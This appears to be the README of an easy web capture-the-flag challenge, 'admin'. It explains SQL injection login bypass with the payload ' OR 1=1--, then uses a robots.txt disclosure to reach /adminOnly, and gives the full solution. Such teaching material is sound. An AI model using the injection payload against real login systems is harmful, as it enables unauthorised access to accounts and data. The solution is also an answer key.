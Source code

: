 # Challenge Name
admin

# Description
Welcome to the "Admin" challenge! Your task is to uncover hidden pages and gain access to sensitive areas by bypassing login mechanisms using SQL Injection techniques.

# Difficulty
Easy

# Guide
Find out more about SQL Injection before proceeding.
https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/

The following shows SQL statement used. This query checks if there is a user with the given `username` and `password` in the `users` table. 
```
SELECT username FROM users WHERE username = 'username' AND password = 'password'
```

With a quick search for sqli you would find a payload similar to this.

```
' OR 1=1--
```
When this is injected into the username, the query would be as follows.

```
SELECT username FROM users WHERE username = '' OR 1=1--' AND password = 'password'
```
A break down of the query now

`'` is used to end the condition for username with `''`.   
Followed by `OR 1=1` which makes it so that its always true.   
Lastly the `--` which is a SQL comment, therefore ignoring the rest of the query.

Once you managed to login, it suggest that there are other pages.
There is a file commonly used to prevent robots from accessing some areas on the site robots.txt.

From the robots.txt we know that there is `/adminOnly` and user
`admin`.  
We can then login to the admin account and access `/adminOnly` to get the flag.

```
username: admin
password: ' OR 1=1--
```

# Hints
Some files are intentionally hidden from bots :)

Have you heard about SQLI

# Resources
https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/

# Solution
By accessing `/robots.txt` we can find the following information.

```
User-agent: *
Disallow: 
/adminOnly
user:admin
```

We then go back to the login page and bypass the login to the admin account.

```
username: admin
password: ' OR 1=1--
```

Lastly we can go to `/adminOnly` and get the flag.

